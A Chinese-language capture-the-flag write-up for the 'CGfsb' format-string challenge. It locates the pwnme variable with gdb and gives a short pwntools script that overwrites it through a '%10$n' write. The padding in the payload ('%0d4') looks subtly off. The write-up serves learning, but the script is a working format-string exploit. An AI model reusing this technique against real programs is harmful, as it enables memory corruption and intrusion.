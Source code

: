 看一下pwnme的位置，.bss段没有初始化的变量，地址是0x0804a068。那么就是要覆盖这个地方的变量为8

gdb调试一下，看一看是第几个参数。

![image-20210121234643967](C:\Users\lsp\AppData\Roaming\Typora\typora-user-images\image-20210121234643967.png)

测试字符串

![image-20210121234753835](C:\Users\lsp\AppData\Roaming\Typora\typora-user-images\image-20210121234753835.png)

发现是第10个参数，直接写脚本。

**环境出了点问题，在本地写了个flag测试**

```python
from pwn import *

p = process('./CGfsb')

p.recvuntil('please tell me your name:\n')
p.sendline('afda')

p.recvuntil('leave your message please:\n')
add = 0x0804a068
payload = p32(add) + '%0d4' + '%10$n'

p.sendline(payload)

p.interactive()
```

小数覆盖的脚本。就这样运行一下，得到flag

![image-20210121234950438](C:\Users\lsp\AppData\Roaming\Typora\typora-user-images\image-20210121234950438.png)

完成简单的字符串变量覆盖。




